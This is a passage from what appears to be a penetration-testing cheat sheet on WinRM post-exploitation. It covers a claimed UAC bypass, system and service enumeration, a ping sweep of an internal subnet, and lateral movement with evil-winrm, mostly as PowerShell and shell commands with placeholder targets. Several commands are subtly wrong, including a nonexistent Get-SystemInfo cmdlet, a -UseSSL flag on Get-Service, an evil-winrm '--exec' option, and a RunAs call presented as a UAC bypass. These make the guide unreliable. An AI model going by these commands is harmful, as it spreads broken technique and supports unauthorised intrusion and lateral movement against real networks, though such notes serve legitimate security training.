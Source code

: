 #### Bypassing UAC

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -UseSSL -ScriptBlock { Start-Process cmd -Verb RunAs }
    ```
* **Description:** Attempts to bypass User Account Control (UAC) to gain elevated privileges on the remote machine.

### Internal Reconnaissance

#### Gathering System Information

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock {Get-SystemInfo}
    ```
* **Description:** Collects detailed system information from the remote machine to aid in further attacks.

#### Network Mapping via WinRM

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Test-NetConnection -ComputerName <other_ip> -Port 5986
    ```

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock {Test-Connection -ComputerName (1..254 | ForEach-Object {"192.168.1.$_"})}
    ```
* **Description:** Maps internal network hosts from the remote machine by pinging them via WinRM.

#### Service Enumeration

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Get-Service -ComputerName <target_ip> -UseSSL
    ```
* **Description:** Enumerates all running services on the remote machine to identify potential targets for exploitation.

### Lateral Movement, Pivoting, and Tunnelling

#### Using WinRM for Lateral Movement

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]], \[\[Evil-WinRM Cheat Sheet]]

    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> --exec 'Enter-PSSession -ComputerName <next_target_ip>'
    ```
* **Description:** Move laterally through the network by establishing WinRM sessions with additional hosts.
